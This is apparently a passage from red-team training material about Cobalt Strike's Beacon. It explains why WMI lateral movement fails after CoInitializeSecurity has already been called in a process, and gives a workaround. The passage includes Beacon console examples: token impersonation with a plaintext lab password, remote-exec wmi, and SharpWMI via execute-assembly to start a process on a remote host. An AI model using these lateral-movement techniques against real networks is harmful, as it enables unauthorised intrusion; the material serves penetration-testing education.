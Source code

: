 Beacon's internal implementation of WMI uses a [Beacon Object File](https://cobaltstrike.com/help-beacon-object-files), executed using the [beacon_inline___execute](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_inline_execute) Aggressor function. When a BOF is executed the [CoInitializeSecurity](https://docs.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-coinitializesecurity) COM object can be called, which is used to set the security context for the current process. According to Microsoft's documentation, this can only be called once per process.

The unfortunate consequence is that if you have CoInitializeSecurity get called in the context of, say "User A", then future BOFs may not be able to inherit a different security context ("User B") for the lifetime of the Beacon process.

An example of that can look like the following:
```shell
beacon> make_token DEV\jking Purpl3Drag0n
[+] Impersonated DEV\bfarmer

beacon> remote-exec wmi srv-2 calc
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to srv-2: 5
```

We know `jking` is a local admin on SRV-2 but because `CoInitializeSecurity` has already been called (probably in the context of `bfarmer`), WMI fails with access denied.

As a workaround, your WMI execution needs to come from a different process. This can be achieved with commands such as `spawn` and `spawnas`, or even `execute-assembly` with a tool such as `SharpWMI`.
```shell
beacon> remote-exec wmi srv-2 calc
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to srv-2: 5

beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Debug\SharpWMI.exe action=exec computername=srv-2 command="C:\Windows\System32\calc.exe"

[*] Host                           : srv-2
[*] Command                        : C:\Windows\System32\calc.exe
[*] Creation of process returned   : 0
[*] Process ID                     : 1312
```

